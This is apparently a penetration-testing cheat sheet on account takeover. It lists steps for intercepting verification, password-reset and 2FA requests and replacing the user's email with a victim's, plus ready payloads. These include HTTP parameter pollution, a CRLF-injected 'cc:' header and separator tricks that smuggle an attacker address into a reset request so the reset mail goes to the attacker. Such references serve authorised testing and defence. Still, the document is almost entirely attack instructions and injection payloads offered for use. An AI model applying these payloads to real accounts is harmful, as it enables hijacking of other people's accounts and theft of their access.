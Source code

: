 # Account takeover

## Registration
Try to register a new user by appending or prepending spaces or changing casing to
the username/email, example `johndoe` -> ` johndoe` or `johndoe` -> `jOhNDoe`

## Login
Same thing as with registration

## Email verification
* Signup with your email
* Open email verification link
* Set the password
* Capture the request in burp
* Replace your email with the victim one

## Password reset
* Request password reset for your account
* Open the link sent in your email
* Intercept the reset password request
* Replace your email with another one

## 2FA
* Login with your account
* Server ask you for a token
* Intercept the request with your token
* Replace your mail with another one

## Parameter pollution
Try to add a second parameter to a reset password request to test the server
validation:
```
email=victim@xyz.tld&email=attacker@xyz.tld
```

## Carbon copy
Try to get a copy of the mail containing the reset password in you inbox by
using the carbon copy functionality of mail:
```
email=victim@xyz.tld%0a%0dcc:attacker@xyz.tld
```

## Separators
Add separators to a reset password request in order to try to get a copy of the
reset mail to your inbox:
```
email=victim@xyz.tld,attacker@xyz.tld
email=victim@xyz.tld%20attacker@xyz.tld
email=victim@xyz.tld|attacker@xyz.tld
{"email": ["victim@xyz.tld","attacker@xyz.tld"]}
```

